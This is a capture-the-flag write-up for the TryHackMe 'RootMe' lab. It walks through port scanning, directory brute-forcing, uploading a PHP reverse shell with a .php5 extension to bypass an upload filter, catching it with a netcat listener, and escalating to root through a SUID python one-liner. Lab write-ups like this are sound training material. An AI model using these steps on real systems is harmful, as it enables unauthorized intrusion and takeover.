 ## RootMe Writeup
[Other THM Writeups](../../../)

**Author** : [Ridful](../../../../)

**THM** : [Ridful](https://tryhackme.com/p/Ridful)

**Twitter** : [Ridful5](https://twitter.com/Ridful5)

# [RootMe](https://tryhackme.com/room/rrootme)


## Task 1
~~*Deploy the Machine*~~

## Task 2
*Reconnaissance*

Do a portscan

sudo nmap -sS -sV -vv -T3 10.10.170.24
```
[...]
Scanning 10.10.170.24 [1000 ports]
Discovered open port 80/tcp on 10.10.170.24
Discovered open port 22/tcp on 10.10.170.24
[...]
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
[...]
```

Directory bruteforcer
```bash
gobuster dir --url http://10.10.170.24/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 60
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.170.24/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.170.24/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.170.24/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.170.24/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 207643 / 207644 (100.00%)
===============================================================
```
/uploads and /panel seem interesting

- Turns out /uploads is a directory listing for our uploaded files, it's empty for now.
- /panel is an upload form

## Task 3
*Getting a shell*

The upload form along with an apache server being present, could suggest a scenario of us being able to upload and run some php.

In Kali Linux, we've got a php reverse shell we could try: /usr/share/webshells/php/php-reverse-shell.php

cp /usr/share/webshells/php/php-reverse-shell.php ./php-reverse-shell.php

nano php-reverse-shell.php

edit $ip & $port to our IP and the Port we wish to listen on
```
$ip = '<self_ip_address>';
$port = 8888;
```

Open a Netcat listener (or other cat of choice)

nc -lvnp 8888
```
listening on [any] 8888 ...
```

I attempt uploading php-reverse-shell.php to 10.10.170.24/panel
> Upload form doesn't accept .php files.
> We'll want to try and bypass this restriction if possible

I found this good website for bypassing file uploads

https://book.hacktricks.xyz/pentesting-web/file-upload
They've got a bunch of things we can try

I figured one of the .php2, .php3, etc extensions would work, but for experimentation I tried adding symbols, nullbyte, .php.php, etc to see what would happen

Once I was satisfied with that effort, I went back to what I thought would work and uploaded (..., .php5):

Visit 10.10.170.24/uploads/php-reverse-shell.php5

The page is stuck loading, which is different from the other tries, and our netcat listener has picked something up, presumably our reverse shell has succeded!

```
connect to [xx.xx.xx.xxx] from (UNKNOWN) [10.10.170.24] 50602
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:06:29 up  3:47,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

id
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

hostname
```
rootme
```

find / -type f -name user.txt
```
/var/www/user.txt
```

cat /var/www/user.txt
```
THM{xxxxxxxxxxxxxxxx}
```

## Task 4
*Privilege escalation*

sudo -l   to see if we've got access to any sudo commands
> Nope

We should search for files with SUID permissions to see if there's anything we can make use of

find / -perm -u=s -type f 2>/dev/null
```bash
[...]
/usr/bin/chsh
**/usr/bin/python**
/usr/bin/at
[...]
```

ls -la /usr/bin/python
```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```
Cool, let's check out the python gtfobin

https://gtfobins.github.io/gtfobins/python/

$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

id
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

sudo -l
```
[...]
User root may run the following commands on rootme:
    (ALL : ALL) ALL
```

find / -type f -name root.txt
```bash
/root/root.txt
```

cat /root/root.txt
```bash
THM{xxxxxxxxxxxxxxxxx}
```

# Reflection

I enjoyed this Room, it was pretty straightforward for the most part, but still provided me with some things that I wish to improve upon.

I.e: Really hammering down on how to best go about the local enumeration for the Privesc.

I'm also thinking there's probably some better wordlists I could use for the Directory bruteforcing instead of the default Kali Linux ones.
I will take time to gain a better understanding of what other lists exist, how they compare, and how each one may serve me best. 

I will also take time to look at alternatives for gobuster, as I'm aware other similar programs exist.
